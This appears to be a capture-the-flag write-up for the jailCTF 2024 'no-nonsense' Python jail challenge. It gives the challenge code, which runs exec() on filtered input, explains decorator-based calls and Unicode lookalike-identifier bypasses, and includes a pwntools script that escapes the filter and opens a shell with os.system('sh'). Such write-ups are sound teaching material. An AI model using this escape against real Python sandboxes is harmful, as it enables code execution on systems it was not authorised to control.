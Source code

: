 # jailCTF 2024 no-nonsense

```python
#!/usr/local/bin/python3
from ast import parse, NodeVisitor

inp = input('> ')
if any(c in inp for c in '([=])'):
    print('no.')
    exit()

class NoNonsenseVisitor(NodeVisitor):
    def visit_Name(self, n):
        if n.id in inp:  # surely impossible to get around this since all utf8 chars will be the same between ast.parse and inp, right?
            print('no ' + n.id)
            exit()


NoNonsenseVisitor().visit(parse(inp))

exec(inp)  # management told me they need to use exec and not eval. idk why but they said something about multiline statements? idk
```

Requirements:

1. No `([=])`: call functions using decorators, `@exec\n@input\nclass a: pass`
2. AST name does not appear in input: use unicode bypass
3. No newlines: use `\r` instead of `\n` for multiline code

Inspired by <https://shirajuki.js.org/blog/pyjail-cheatsheet/#decorators>.

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "no-nonsense.py"])


def bypass(text):
    # unicode bypass
    encoded = ""
    for ch in text:
        if ch.isalpha():
            encoded += chr(ord(ch) + 0x1D41A - ord("a"))
        else:
            encoded += ch
    return encoded


text = f"""
@{bypass("exec")}
@{bypass("input")}
class a: pass
""".replace(
    "\n", "\r"
)

print(text)
p.sendline(text.encode())
# get shell
p.sendline(b"import os;os.system('sh')")
p.interactive()
```

Official writeup: <https://github.com/jailctf/challenges-2024/blob/master/no-nonsense/solve/payload.txt>.
